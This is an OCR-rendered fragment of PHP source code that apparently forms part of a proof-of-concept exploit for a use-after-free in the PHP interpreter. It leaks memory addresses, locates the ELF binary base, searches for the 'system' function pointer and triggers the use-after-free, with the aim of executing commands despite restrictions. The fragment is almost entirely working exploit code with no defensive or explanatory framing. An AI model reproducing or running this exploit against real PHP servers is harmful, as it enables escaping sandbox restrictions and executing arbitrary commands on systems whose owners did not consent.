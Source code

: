```php
                if($deref != 0x746e6174736e6f63)
                    continue;
            } else continue;

            $leak = leak($data_addr, ($i + 4) * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                # 'bin2hex' constant check
                if($deref != 0x786568326e6962)
                    continue;
            } else continue;

            return $data_addr + $i * 8;
        }
    }

    function get_binary_base($binary_leak) {
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i < 0x1000; $i++) {
            $addr = $start - 0x1000 * $i;
            $leak = leak($addr, 0, 7);
            if($leak == 0x10102464c457f) { # ELF header
                return $addr;
            }
        }
    }

    function get_system($basic_funcs) {
        $addr = $basic_funcs;
        do {
            $f_entry = leak($addr);
            $f_name = leak($f_entry, 0, 6);

            if($f_name == 0x6d6574737973) { # system
                return leak($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }

    function trigger_uaf($arg) {
        # str_shuffle prevents opcache string interning
        $arg = str_shuffle(str_repeat('A', 79));
        $vuln = new Vuln();
        $vuln->a = $arg;
    }

    if(stristr(PHP_OS, 'WIN')) {
        die('This PoC is for *nix systems only.');
    }

    $n_alloc = 10; # increase this value if UAF fails
    $contiguous = [];
    for($i = 0; $i < $n_alloc; $i++)
        $contiguous[] = str_shuffle(str_repeat('A', 79));

    trigger_uaf('x');
    $abc = $backtrace[1]['args'][0];

    $helper = new Helper;
    $helper->b = function ($x) { };
```